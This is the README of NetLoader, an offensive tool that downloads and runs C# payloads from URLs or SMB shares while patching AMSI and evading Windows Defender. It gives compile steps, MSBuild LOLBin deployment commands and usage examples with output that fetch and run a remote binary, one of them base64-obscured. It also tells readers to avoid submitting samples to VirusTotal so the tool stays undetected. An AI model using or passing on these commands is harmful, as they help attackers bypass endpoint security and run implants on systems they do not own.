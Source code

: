 # NetLoader
Loads any C# binary from filepath or url, patching AMSI and bypassing Windows Defender on runtime

Latest update / signature fix was 09.06.2020, clean as a whistle
I am doing 24/7 signature checks and pushing updates when possible so I can keep NetLoader undetected (mainly for my own educational purposes)
**Please do not upload to VirusTotal and DISABLE "Sample Submission" when testing / possible**

**Looking for binaries/payloads to deploy? Checkout [SharpCollection](https://github.com/Flangvik/SharpCollection)**! SharpCollection contains nightly builds of C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines.

# Compile

	c:\windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:exe /out:RandomName.exe Program.cs

# Deploy via LOLBin (MSBuild)

Payload for MSBuild is in the /LOLBins folder, might push this for varius other LOLBins aswell.

	For 64 bit:
	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml

	For 32 bit:
	C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe NetLoader.xml
	

# Usage
Deploy payload from remote URI with args

	PS D:\NetLoader> .\NetLoader.exe https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


Deploy payload from local path or SMB share (note that NetLoader automatically detects whether the path provided is local or remote)

	.\NetLoader.exe D:\Tools\Stracciatella.bin whoami
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : D:\Tools\Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


Supports base64 inputs for those long strings that would usually break stuff!

	PS D:\NetLoader> .\NetLoader.exe --b64 aHR0cHM6Ly9naXRodWIuY29tL0ZsYW5ndmlrL05ldExvYWRlci9yYXcvbWFzdGVyL0JpbmFyaWVzL1N0cmFjY2lhdGVsbGEuYmlu d2hvYW1p
	[!] ~Flangvik  #NetLoader
	[+] Successfully patched AMSI!
	[+] URL/PATH : https://github.com/Flangvik/NetLoader/raw/master/Binaries/Stracciatella.bin
	[+] Arguments : whoami
	windef\tigerking
	PS D:\NetLoader>


# Todo
- [X]  Automate the build and release of many of the Sharp Tools so they automagically appear in ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) (CDI / Azure DevOps)
- [X]  Add support for non-interactive use (input args)
- [X]  Add support to run custom modules from your own URL or SMB Share (Great for on-the-fly Implant deployment)
- [X]  Add an working MSBuild XML payload for the LOLBins lovers (Myself included)
- [X]  Update with credits and links to the github repos that ~~/Binaries~~ [SharpCollection](https://github.com/Flangvik/SharpCollection) are compiled from

# Credits
[_RastaMouse](https://twitter.com/_RastaMouse/) for the [AMSI bypass](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/master/ASBBypass/Program.cs)

